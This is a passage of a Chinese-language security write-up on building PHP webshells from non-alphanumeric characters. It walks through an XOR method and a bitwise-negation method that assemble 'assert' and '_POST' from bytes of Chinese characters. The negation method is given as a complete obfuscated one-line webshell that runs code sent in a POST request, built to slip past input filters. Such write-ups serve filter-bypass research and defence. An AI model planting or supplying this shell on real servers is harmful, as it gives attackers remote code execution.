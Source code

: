 
#### OUT:

```php
%01%13%13%05%12%14%0D%2F%0E%09
```

这样得到了异或需要的值，然后我们看一下代码的具体操作，首先是先进行异或，字符连接得到'assert'，也就是$_变量，然后按照相同办法得到'_POST'，接下来就是组装。


#### 方法二：使用取反

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;
$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});
$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});
$_=$$_____;
$____($_[$__]);
```

上面看起来就没有头绪，这里我简单说明一下。

在ｐ师傅的这篇文章中可以发现：


#### IN:

```php
<?php echo ~('和'{2});
```


#### OUT:

```php
s
```

后来在我的尝试下，发现在php7以下都会报一个错误：syntax error, unexpected '{' in 1.php on line 3，但是换一种写法就可以

```php
<?php
$___="和";
echo ~($___{2});
```

这里先记下来了，解析一下这语句的意思，(''{})来输出汉字的UTF-8编码的某个字符，另外记录一个小知识点：


#### IN:

```php
<?php 
echo base_convert(ord("和"[0]), 10, 16);
echo base_convert(ord("和"[1]), 10, 16);
echo base_convert(ord("和"[2]), 10, 16).'<br/>';
echo urlencode("和").'<br/>';
```


[0]: http://51.158.75.42:8084/
[1]: http://www.php.net/manual)%EF%BC%8C%E8%BF%99%E4%B8%AA%E7%9C%9F%E7%9A%84%E6%98%AF%E5%A5%BD%E4%B8%9C%E8%A5%BF%E3%80%82%E4%BB%A5%E4%B8%8B%E6%98%AF%E5%AF%B9%E8%BF%99%E4%B8%80%E5%9D%97%E7%9A%84%E6%8E%A2%E7%A9%B6%EF%BC%9A
[2]: https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html